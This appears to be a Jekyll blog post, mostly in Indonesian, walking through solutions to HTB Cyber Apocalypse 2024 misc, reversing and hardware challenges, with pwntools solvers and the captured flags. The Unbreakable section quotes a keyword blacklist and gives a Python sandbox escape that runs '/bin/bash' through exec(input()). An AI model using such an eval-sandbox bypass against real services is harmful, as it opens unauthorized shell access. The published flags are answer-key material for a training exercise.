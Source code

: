 ```yaml
---
layout: post
title:  "HTB Cyber Apocalypse 2024: Hacker Royale - Misc, Reversing and Hardware"
date:   2024-03-14 00:00:00
description: "HTB Cyber Apocalypse 2024: Hacker Royale - Misc, Reversing and Hardware"
tag:
  - Misc
  - Reversing
---
```


<h2>Table of Contents</h2>
- TOC	- TOC
{:toc}

### **Stop Drop and Roll - Misc**

**Solving Scenario:**\
Service meminta inputan jawaban berupa "STOP, DROP, ROLL". Apabila server mengirimkan "GORGE, FIRE, PHREAK", maka jawabannya adalah "STOP-ROLL-DROP", begitu juga apabila hanya terdapat 1 atau 2 kata seperti "GORGE, FIRE", maka jawabannyay adalah "STOP-ROLL". Lakukan secara terus menerus hingga mendapatkan flag.

![Stop Drop and Roll](images/HTBAPOCALYPSE2024_stopdropandroll1.png)

Solver:
``` python
from pwn import *

mapping = {
"GORGE": "STOP",
"PHREAK": "DROP",
"FIRE": "ROLL"
}

p = remote("94.237.56.188", 46698)

p.recvuntil(b"In this case, you need to send back STOP-ROLL-DROP!")
p.sendline(b"y")
p.recvuntil(b"Ok then! Let's go!")
p.recvline()

while True:
	question = p.recvline().decode().replace("\n", "").split(", ")
	
	if len(question) == 1:
		answer = mapping[question[0]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 2:
		answer = mapping[question[0]]+"-"+mapping[question[1]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 3:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 4:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]+"-"+mapping[question[3]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 5:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]+"-"+mapping[question[3]]+"-"+mapping[question[4]]
		p.sendline(answer.encode())
		print(answer)
	
	p.recvuntil(b"What do you do? ")

p.close()
```

**Flag**: HTB{1_wiLl_sT0p_dR0p_4nD_r0Ll_mY_w4Y_oUt!}

**================================================================================================**

### **Character - Misc**

**Solving Scenario:**\
Hanya menginputkan index karakter flag yang ingin diambil.

![Character](images/HTBAPOCALYPSE2024_character1.png)

Lakukan automasi agar lebih cepat dan karena flag nya panjang.

Solver:
``` python
from pwn import *

p = remote("94.237.49.182", 57581)

p.recv()

flag = ""
index = 0
while "}" not in flag:
	p.sendline(str(index).encode())
	part = p.recvline()
	flag += chr(part[-2])
	index += 1
	print(flag)
	
p.close()
```

**Flag**: HTB{tH15_1s_4_r3aLly_l0nG_fL4g_i_h0p3_f0r_y0Ur_s4k3_tH4t_y0U_sCr1pTEd_tH1s_oR_els3_iT_t0oK_qU1t3_l0ng!!}

**================================================================================================**

### **Unbreakable - Misc**

**Solving Scenario:**\
main.py file:
``` python
.....SNIP.....
blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```

Python Sandbox Escape, bypass dengan "exec(input())"

Solver:
``` python
exec(input())
__import__("os").system("/bin/bash")
```

**Flag**: HTB{3v4l_0r_3vuln??}

**================================================================================================**

### **LootStash - Reversing**

**Solving Scenario:**\
Decompile binary stash dengan IDA, terdapat variable gear. Akses variable gear tersebut diarahkan ke segment data kumpulan kalimat.
Gunakan fungsi search text pada IDA untuk mencari flag dengan format "HTB".

![Stash](images/HTBAPOCALYPSE2024_stash1.png)
![Stash](images/HTBAPOCALYPSE2024_stash2.png)

**Flag**: HTB{n33dl3_1n_a_l00t_stack}

**================================================================================================**

### **BoxCutter - Reversing**

**Solving Scenario:**\
Cukup jalankan ltrace ./cutter dan flag didapatkan

![BoxCutter](images/HTBAPOCALYPSE2024_cutter1.png)

**Flag** HTB{tr4c1ng_th3_c4ll5}

**================================================================================================**

### **PackedAway - Reversing**

**Solving Scenario:**\
Check file dengan strings, diketahui binary di compress dengan UPX sehingga tidak bisa di decompile.

![PackedAway](images/HTBAPOCALYPSE2024_packedaway1.png)

Decompress binary dengan [UPX](https://github.com/upx/upx).
Command: upx -d packed

strings and grep "HTB" pada binary yang telah di decompress maka flag didapatkan.

![PackedAway](images/HTBAPOCALYPSE2024_packedaway2.png)

**Flag**: HTB{unp4ck3d_th3_s3cr3t_0f_th3_p455w0rd}

**================================================================================================**

### **Maze - Hardware**

**Solving Scenario:**\
Check Factory.pdf file didalam folder saveDevice/SavedJobs/Inprogress dan flag didapatkan

![Maze](images/HTBAPOCALYPSE2024_maze1.png)

**Flag**: HTB{1n7323571n9_57uff_1n51d3_4_p21n732}

Thank you for reading this article, i hope it was helpful :-D\
**Follow me on: [Linkedin], [Medium], [Github], [Youtube], [Instagram]**

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
